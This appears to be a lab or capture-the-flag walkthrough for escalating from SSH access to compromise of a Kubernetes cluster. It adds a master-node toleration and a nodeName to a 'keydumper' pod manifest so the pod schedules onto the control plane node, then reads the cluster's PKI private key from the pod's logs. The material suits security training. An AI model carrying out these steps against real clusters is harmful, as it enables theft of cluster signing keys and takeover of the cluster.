## SSH to Create Pod - Easy

## Compromising the cluster

3. `kubectl get po -n kube-system` will fail (user doesn't have those rights)
4. `kubectl get po` will work and give you a list of pods in the default namespace
At this point there's several ways to achieve the goal, lets go with hostpath, however as we have a multi-node cluster, we need to make sure that our pod will land on the control plane node that has the key available.

5. There's two steps needed to modify the keydumper manifest to have this work. First, copy the `/key-dumper-pod.yml` file to `/home/sshuser/`, then add the following lines to the spec section of the manifest to allow it to schedule to a control plane node :-
```yaml
  tolerations:
  - key: node-role.kubernetes.io/master
    effect: NoSchedule
```

6. Then we need to specify the node to land on , get the nodes with `kubectl get nodes` then add the following line to the spec. section of the manifest.
```yaml
  nodeName: sshcpmn-control-plane
```


5. Now we need to create a pod that dumps out the PKI private key `kubectl create -f keydumper.yml`
6. and the key should be in the logs `kubectl logs keydumper-pod`
7. profit!

